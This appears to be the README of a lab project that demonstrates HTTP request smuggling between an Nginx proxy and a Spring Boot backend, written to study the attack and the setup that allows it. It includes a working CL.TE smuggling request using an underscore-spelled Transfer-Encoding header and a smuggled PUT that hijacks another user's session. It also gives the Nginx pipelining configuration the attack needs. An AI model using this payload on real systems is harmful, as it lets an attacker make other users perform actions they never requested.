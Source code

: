 # Http Smuggling Demo Project (Nginx + Spring)
### This project is intend to
- To study the behaviours of Http Smuggling Attack on a FE + BE application combination.
- To understand what are the pre-conditions of a system setup that potentially exploit-able

### Project Structure
#### http-smuggler-application
- acts as Back End Service. typical spring boot application
- simple rest API to simulate the scenario of
    - login
    - users/me
    - users?follow=${name}
#### nginx
- acts as Front End Service (LB|Proxy|ReversedProxy)
- uses nginx lua module to perform `http headers normalization` that converts invalid headers that consist of `_` to `-`
- It is almost impossible to perform `http headers normalization` on sensitive/builtin headers with nginx lua module, hacks have been done in order to achieve it
#### http-smuggler-gateway
- tries to reproduce using a Spring Gateway + Spring Boot approach
- It is almost impossible to realise it where
    - Spring Gateway will throw error where filter headers have both CL and TE [link](https://github.com/spring-cloud/spring-cloud-gateway/blob/59cba504509ee807ab5c6be01ba46c20b034cd8f/spring-cloud-gateway-server/src/main/java/org/springframework/cloud/gateway/filter/NettyRoutingFilter.java#L168-L175).
    - Requires a keep alive socket connection between the two (yet to be POCed)

### Demo Flow
To simulate user impersonate attack using Http Smuggling Attack. Execute the request payload in the burp suite application (repeater)

- Two demo users, `bob | pwd` and `alice | pwd`
- `alice` login to the application, and be return with a sessionId
```
POST /v1/login HTTP/1.1
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=alice&password=pwd
```

- Uses the sessionId, alice retrieves her information using `v1/users/me` api
```
GET /v1/users/me HTTP/1.1
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

- bob performs CLTE Http Smuggling Attack from the login API
```
POST /v1/login HTTP/1.1
Content-Type: application/json
Accept: */*
Cache-Control: no-cache
Host: localhost
Connection: keep-alive
Content-Length: 89
Transfer_Encoding: chunked

23
{"username":"bob","password":"pwd"}
0

PUT /v1/users/follow?user=bob HTTP/1.1
X:X
```
- On the next `users/me` query, alice's request will be smuggled and resulting in following bob `PUT /v1/users/follow?user=bob`, result can be observed from the response payload.

### Explanation
- The invalid header `Transfer_Encoding` will be normalised at the proxy layer to a valid `Transfer-Encoding` header when it passes to application layer
- As `Transfer-Encoding` has higher precedence than `Content-Length`, a desync is happened where FE uses `Content-Length` but BE uses `Transfer-Encoding`
- As the `Transfer-Encoding`'s payload is much shorter, the application layer will think the payload ends at the 0, and will threat the follow `PUT /v1 ***` request as the next request
- when the victim request comes in (alice), the application will process the request as the below, and results in performing `/v1/users/follow?user=bob` instead of `/v1/users/me`
```
PUT /v1/users/follow?user=bob HTTP/1.1
X:XGET /v1/users/me HTTP/1.1 // silence the request URL part
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

### Experiment Findings
Two conditions to meet for a success Http smuggling
- Make use of the variant of CL & TE headers to trick payload mismatch between FE and BE
- The connection between FE & BE must be `Http 1.1 with pipelining enabled`  where multiple HTTP requests are sent on a single TCP connection
- To configure Nginx to perform `http pipelining`
```
upstream application {
  server localhost:9090;
  keepalive 16;
}

proxy_set_header Connection "";
proxy_http_version 1.1;

```

### Additional Dev Notes
#### Setup Burp Suite on Firefox
- Burp Suite is suitable to send HTTP request with Transfer-Encoding = chunked
- by default, localhost | 127.0.0.1 won't forward traffic to proxy server
- to enable it, go  to tab `about:config` then look for `network.proxy.allow_hijacking_localhost`. [(refernece)](https://security.stackexchange.com/a/211555/224446)
